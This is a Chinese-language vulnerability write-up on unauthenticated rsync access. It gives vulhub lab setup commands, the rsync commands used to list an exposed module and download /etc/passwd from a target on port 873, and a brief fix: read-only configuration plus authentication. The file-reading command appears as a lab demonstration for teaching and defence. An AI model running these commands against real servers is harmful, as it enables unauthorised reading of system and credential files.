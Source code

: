 ```yaml
---
title: 'rsync-未授权访问漏洞'
date: Sun, 27 Sep 2020 12:54:50 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 前言

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

#### 环境搭建

```
cd vulhub/rsync/common 
``````
docker-compose build && docker-compose build 
```环境启动后，我们用rsync命令访问之： 有一个src模块，我们再列出这个模块下的文件：```
rsync rsync://your-ip:873/src/ 
```![](rsync-未授权访问漏洞.assets/1627364675302814.jpg) 这是一个Linux根目录，我们可以下载任意文件：```
rsync -av rsync://your-ip:873/src/etc/passwd ./ 
```![](rsync-未授权访问漏洞.assets/162736467551821.jpg)

#### 修复建议

配置只读配置认证用户名或者密码